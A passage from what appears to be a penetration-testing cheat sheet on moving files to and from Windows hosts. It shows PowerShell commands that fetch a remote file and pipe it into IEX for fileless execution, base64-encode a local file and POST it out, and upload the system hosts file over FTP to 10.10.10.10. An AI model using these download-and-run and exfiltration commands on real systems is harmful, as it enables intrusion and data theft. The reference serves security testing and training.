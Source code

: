 {% tab title="SMB" %}
```powershell
# Unauthenticated
copy \\10.10.10.10\share\file1

# Authenticated
# Connect to the share
net use n: \\10.10.10.10\share /user:test test

# Transfer
copy n:\file1
```
{% endtab %}
{% endtabs %}

Fileless execution:

{% tabs %}
{% tab title="IEX" %}
{% code overflow="wrap" %}
```powershell
(New-Object Net.WebClient).DownloadFile('http://10.10.10.10/file1','c:\temp\file1') | IEX
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Uploads

{% tabs %}
{% tab title="IWR" %}
<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"># encode file
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:\temp\file1' -Encoding Byte))
<strong># upload file
</strong>Invoke-WebRequest -Uri http://10.10.10.10 -Method POST -Body $b64
</code></pre>
{% endtab %}

{% tab title="FTP" %}
<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>(New-Object Net.WebClient).UploadFile('ftp://10.10.10.10/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
</strong></code></pre>
{% endtab %}

{% tab title="scp" %}
```powershell
scp C:\Temp\file1 user@10.10.10.10:/tmp/file1
```
{% endtab %}
{% endtabs %}

## Misc
